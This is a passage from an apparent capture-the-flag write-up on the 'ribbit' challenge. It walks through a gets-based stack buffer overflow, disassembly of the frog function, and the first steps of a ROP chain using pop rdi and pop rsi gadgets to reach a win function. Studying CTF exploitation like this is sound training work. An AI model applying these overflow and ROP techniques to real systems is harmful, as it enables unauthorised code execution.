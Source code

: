 ```c
    frog();
    return 0;
```
{: file="ribbit.c" }

There is a `win` function that will print us the flag if called, and there is a `gets` function call in the `frog` function that will allow us to do a buffer overflow. From the `checksec` results we see that there is a canary, but if we look at the disassembly for the `frog` function there is no canary check for that function.

```console
pwndbg> disassemble frog
Dump of assembler code for function frog:
   0x00000000004018f5 <+0>:     endbr64
   0x00000000004018f9 <+4>:     push   rbp
   0x00000000004018fa <+5>:     mov    rbp,rsp
   0x00000000004018fd <+8>:     sub    rsp,0x20
   0x0000000000401901 <+12>:    lea    rax,[rip+0x96788]        # 0x498090
   0x0000000000401908 <+19>:    mov    rdi,rax
   0x000000000040190b <+22>:    call   0x40c7b0 <puts>
   0x0000000000401910 <+27>:    lea    rax,[rbp-0x20]
   0x0000000000401914 <+31>:    mov    rdi,rax
   0x0000000000401917 <+34>:    mov    eax,0x0
   0x000000000040191c <+39>:    call   0x40c630 <gets>
   0x0000000000401921 <+44>:    nop
   0x0000000000401922 <+45>:    leave
   0x0000000000401923 <+46>:    ret
End of assembler dump.
```

This is however not a "normal" buffer overflow challenge, as the `win` function has an if-check that we need to pass in order for the flag to be printed.
```c
if (jump_height == 0xf10c70b33f && strncmp("You got this!", motivation, 13) == 0 && strncmp("Just do it!", motivation+21, 11) == 0)
```
{: .nolineno }

Thus, in addition to overwriting the return address on the stack, we also need to set the proper values in the registers storing the function arguments. On x86_64, the first argument is stored in the `rdi` register, and the second argument in the `rsi` register.


## Assembling our Payload
As there is no PIE on this binary, we can easily find the address of the gadgets helping us set the register values.

```console
loevland@hp-envy:~/ctf/nbctf/ribbit$ ROPgadget --binary ./ribbit | grep -w ": pop rdi ; ret\|: pop rsi ; ret"
0x000000000040201f : pop rdi ; ret
0x000000000040a04e : pop rsi ; ret
```
